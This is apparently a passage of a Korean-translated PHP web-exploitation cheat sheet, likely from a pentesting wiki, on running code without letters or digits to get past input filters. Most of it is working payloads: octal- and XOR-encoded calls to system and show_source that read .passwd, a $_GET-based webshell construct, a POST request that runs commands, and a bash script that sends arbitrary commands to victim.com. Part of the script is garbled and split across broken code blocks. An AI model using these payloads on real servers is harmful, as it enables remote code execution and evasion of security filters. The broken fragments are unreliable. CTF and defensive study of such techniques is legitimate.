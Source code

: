 ### Using octal
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR 쉬운 셸 코드

[**이 글** ](https://mgp25.com/ctf/Web-challenge/)에 따르면, 다음과 같은 방법으로 쉬운 셸 코드를 생성할 수 있습니다:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
그래서, **숫자와 문자가 없는 임의의 PHP를 실행할 수 있다면** 다음과 같은 요청을 보내 임의의 PHP를 실행할 수 있습니다:
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
더 자세한 설명은 [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg\_match)에서 확인하세요.

### XOR Shellcode (eval 내부)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### 펄과 유사한
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
```